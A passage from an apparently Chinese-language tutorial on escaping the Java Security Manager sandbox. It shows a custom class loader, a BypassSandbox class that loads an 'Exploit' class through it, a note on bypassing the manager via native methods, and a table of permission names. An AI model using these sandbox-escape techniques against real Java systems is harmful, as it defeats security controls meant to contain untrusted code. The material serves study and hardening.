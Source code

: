 ```java

    private File getClassFile(String name) {
        File file = new File("./" + name + ".class");
        return file;
    }

    private byte[] getClassBytes(File file) throws Exception {
        FileInputStream fis = new FileInputStream(file);
        FileChannel fc = fis.getChannel();
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        WritableByteChannel wbc = Channels.newChannel(baos);
        ByteBuffer by = ByteBuffer.allocate(1024);

        while (true) {
            int i = fc.read(by);
            if (i == 0 || i == -1) {
                break;
            }

            by.flip();
            wbc.write(by);
            by.clear();
        }
        fis.close();
        return baos.toByteArray();
    }
}
```

BypassSandbox .java

```java
public class BypassSandbox {
    public static void main(String[] args) throws Exception {
        MyClassLoader mcl = new MyClassLoader();
        Class<?> c1 = Class.forName("Exploit", true, mcl);
        Object obj = c1.newInstance();
        System.out.println(obj.getClass().getClassLoader());
   }
}
```

## **本地方法调用绕过Java Security Manager**

>Java Security Manager是在java核心库中的一个功能，而java中native方法是由jvm执行的，不受java security manager管控。因此，我们可以调用java native方法，绕过java security manager。

## 附录

##### A

| 权限名                | 用途说明                                                     |
| :-------------------- | :----------------------------------------------------------- |
| accessClassInPackage. | 允许代码访问指定包中的类                                     |
| accessDeclaredMembers | 允许代码使用反射访问其他类中私有或保护的成员                 |
| createClassLoader     | 允许代码实例化类加载器                                       |
| createSecurityManager | 允许代码实例化安全管理器，它将允许程序化的实现对沙箱的控制   |
| defineClassInPackage. | 允许代码在指定包中定义类                                     |
| exitVM                | 允许代码关闭整个虚拟机                                       |